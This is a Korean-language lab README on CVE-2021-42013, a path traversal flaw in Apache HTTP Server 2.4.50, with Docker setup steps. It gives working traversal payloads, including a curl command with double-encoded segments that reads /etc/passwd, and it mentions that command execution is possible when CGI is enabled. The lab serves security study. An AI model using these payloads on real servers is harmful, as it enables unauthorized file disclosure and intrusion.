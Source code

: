 Apache HTTP Server 2.4.50의 경로 탐색 및 파일 노출 취약점 (CVE-2021-42013)
=
**Contributors**
* [박희진(@gmlwlsdl)](https://github.com/gmlwlsdl)
<br/>

### 요약
* Apache HTTP Server Project는 UNIX 및 Windows를 포함한 최신 운영 체제를 위한 오픈 소스 HTTP 서버를 개발하고 유지 관리하기 위한 소프트웨어입니다.
* CVE-2021-42013은 CVE-2021-41773의 불완전한 수정으로 인해 발생하는 취약점 입니다.
* 이 취약점은 이전 버전이 아닌 Apache HTTP Server 2.4.49 및 2.4.50에 영향을 미칩니다.
<br/>

### 환경 구성 및 실행
* 다음 명령을 실행하여 취약한 Apache HTTP 서버를 시작합니다

        docker compose build
        docker compose up -d

* 서버가 시작된 후  ```http://your-ip:8080```를 통해 Apache HTTP Server의 It works!라는 기본 페이지를 볼 수 있습니다.
* Apache HTTP Server 2.4.50은 ```http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd```와 같은 이전 CVE-2021-41773 페이로드를 패치했지만 불완전 합니다.
* ```.%%32%65```를 사용하여 패치를 우회합니다. (```/icons/```는 존재하는 디렉토리여야 함)
  
        curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd

![Alt text](./httpd/CVE-2021-42013/1.png)
* 서버에서 mods cgi 또는 cgid가 활성화된 경우, 경로 탐색 취약점으로 인해 임의 명령이 실행될 수 있습니다.
<br/>

### 결과
![Alt text](./httpd/CVE-2021-42013/2.png)
<br/>

### 정리
* 공격자는 경로 순회 공격을 사용하여 URL을 구성된 디렉토리 외부의 파일에 매핑할 수 있습니다.
<br/>

### 참고
* https://httpd.apache.org/security/vulnerabilities_24.html
* https://twitter.com/roman_soft/status/1446252280597078024
